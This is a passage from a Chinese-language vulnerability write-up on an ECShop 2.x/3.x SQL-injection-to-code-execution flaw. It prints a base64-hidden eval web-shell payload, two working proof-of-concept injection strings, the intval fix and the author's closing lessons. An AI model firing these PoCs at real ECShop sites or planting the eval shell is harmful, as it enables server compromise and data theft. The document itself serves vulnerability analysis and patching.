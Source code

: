 解码为：

	{$a'];assert(base64_decode('QEVWQUwoYmFzZTY0X2RlY29kZSgkX1BPU1RbJ05veCddKSk7'));$a['1}

对应的`base64`为：

	@EVAL(base64_decode($_POST['Nox']));
  
2.x版本和3.x版本poc：

    POC for ECShop 2.x: 
    554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}554fcae493e564ee0dc75bdf2ebf94ca

    POC for ECShop 3.x: 
    45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a

### 0x03 漏洞修复： ###

在`insert_ads`函数中，对`$arr[id]`和`$arr[num]`进行强制类型转换

	$arr['id'] = intval($arr['id']);
	$arr['num'] = intval($arr['num']);


### 0x04 总结： ###

漏洞的整个利用流程非常的精巧，通过多种组合进行安全机制的绕过，目前`3.x`的版本没有放出公开的`poc`,后续再尝试分析一波。分析中碰到的一些难点和感悟：

- 对于正则表达的式的理解，需要依靠第三方的工具进行结果验证
- 如果是挖掘漏洞的话需要对代码每个分支的功能有所了解
- 整体分析的过程时，需要粗略把握每个函数的功能对这个漏洞的利用链有个大致的轮廓，后续再深入每个函数的细节去分析

KEEP Going!!! :P



